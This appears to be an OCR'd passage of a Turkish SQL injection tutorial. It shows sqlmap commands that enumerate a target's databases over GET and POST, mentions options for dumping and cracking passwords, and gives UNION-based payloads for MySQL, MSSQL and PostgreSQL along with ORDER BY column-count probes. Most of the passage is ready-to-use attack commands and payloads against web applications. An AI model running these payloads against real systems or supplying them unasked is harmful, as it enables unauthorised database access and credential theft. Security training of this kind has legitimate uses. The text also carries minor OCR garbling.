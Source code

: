 ✅ users tablosundaki tüm verileri getirir.
```sql
📌 Eğer veriler şifreli ise --passwords ve --crack parametrelerini kullanarak şifreleri çözmeyi deneyebilirsin.
```





SQL Veritabanı İsmini Öğrenme
1️⃣ SQLmap ile Otomatik Veritabanı İsmini Öğrenme
SQLmap, SQL Injection testlerini otomatikleştiren güçlü bir araçtır. Eğer bir hedef URL'nin parametre bazlı SQL Injection’a açık olup olmadığını test etmek ve veritabanı ismini öğrenmek istiyorsan:
bash
```bash
sqlmap -u "https://target.com/index.php?id=1" --dbs
```
✅ Açıklama:
-u: Hedef URL
```sql
--dbs: Sunucudaki tüm veritabanlarını listelemeye çalışır
```
Eğer POST metodu ile çalışıyorsa, şu şekilde kullanılabilir:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```

2️⃣ UNION-Based SQL Injection ile Veritabanı İsmini Öğrenme
Union-based SQL Injection, veritabanı sistemine direkt sorgu ekleyerek veritabanı adını döndürmeye çalışır.
MySQL İçin
sql
```sql
' UNION SELECT database(), null, null-- -
```
✔️ Çıktı:
nginx
KopyalaDüzenle
test_database
MSSQL İçin
sql
```sql
' UNION SELECT DB_NAME(), null, null-- -
```

PostgreSQL İçin
sql
```sql
' UNION SELECT current_database(), null, null-- -
```
💡 Eğer kaç sütun olduğunu bilmiyorsan, ORDER BY veya UNION SELECT NULL yöntemiyle tespit edebilirsin.
sql
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
